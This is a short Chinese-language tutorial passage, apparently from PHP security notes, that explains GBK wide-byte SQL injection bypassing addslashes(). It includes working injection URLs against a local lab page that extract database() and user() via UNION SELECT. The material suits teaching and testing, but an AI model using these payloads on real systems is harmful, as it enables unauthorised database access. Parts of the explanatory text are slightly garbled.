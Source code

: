 如果 mysql 连接中有这样的语句 `mysql_query("SET NAMES 'gbk'")`，`set character_set_client=gbk` 就有可能存在宽字节注入，**该语句的作用是把传入的参数转换为GBK编码**。这时候如果这样注入：id=5'，就可以绕过addslashes()函数。 因为addslashes()函数首先在单引号(')前面加一个反斜杠()，这是id=5'，url编码为id=5'，在GBK编码中为中文“運”，这 就导致后面的单引号逃掉了。

```
%df%27===>(addslashes)====>%df%5c%27====>(GBK)====>運’
```



```http
http://127.0.0.1:8081/www.phpsec.com/sql/sql5.php?id=%E9%81%8B%27%20union%20select%201,2,database()%23
```

<img src=".\图片\Snipaste_2023-04-08_16-22-15.png" alt="Snipaste_2023-04-08_16-22-15" style="zoom:80%;" />



```http
http://127.0.0.1:8081/www.phpsec.com/sql/sql5.php?id=%df%27%20union%20select%201,2,user()%23
```
